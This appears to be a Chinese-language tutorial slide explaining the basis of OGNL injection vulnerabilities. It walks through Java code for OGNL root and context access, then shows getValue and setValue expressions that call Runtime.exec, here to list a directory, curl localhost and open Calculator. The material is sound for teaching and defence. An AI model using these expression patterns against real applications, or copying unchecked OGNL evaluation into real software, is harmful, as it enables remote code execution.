

漏洞基础原理
OGNL的最顶层对象是一个Map对象，通常称这个Map对象为context map或者context，OGNL的root就在这个context map中.
Student rootUser = new Student(1,"tom","JAVA",82);
Map<String, Student> context = new HashMap<String, Student>();
context.put("user1",new Student(2,"John","JAVA",78));
context.put("user2",new Student(3,"zhangsan","JAVA",63));
OgnlContext oc = new OgnlContext();
//ognl由root和context两部分组成
oc.setRoot(rootUser);
oc.setValues(context);
//get ognl的root的值的时候，直接写希望获取的值的名字就可以了
String name = (String) Ognl.getValue("name",oc,oc.getRoot());
//tom Integer score = (Integer) Ognl.getValue("score",oc,oc.getRoot());//82
//get ognl非root的值的时候，需要使用#
Student name1 = (Student) Ognl.getValue("#context['user1']",oc,oc.getRoot());
String name2 = (String) Ognl.getValue("#user2.name",oc,oc.getRoot());//zhangsan
Integer score1 = (Integer) Ognl.getValue("#user1.score",oc,oc.getRoot());//78
Integer score2 = (Integer) Ognl.getValue("#user2.score",oc,oc.getRoot());//63
//ognl的getValue函数可以直接执行java函数
Object obj = Ognl.getValue("'helloworld'.length()",oc.getRoot()); //10
//访问静态属性和方法的时候需要使用@
Object obj2 = Ognl.getValue("@java.lang.Runtime@getRuntime().exec('cmd.exe /c start dir')",oc.getRoot());
//getValue具有代码执行能力

//命令执行
OgnlContext context2 = new OgnlContext();
Ognl.getValue("@java.lang.Runtime@getRuntime().exec('curl http://127.0.0.1:10000/')", context2, context2.getRoot());
Ognl.setValue("(\"@java.lang.Runtime@getRuntime().exec(\'open/Applications/Calculator.app/\')\")(glassy)(amadeus)",context,"");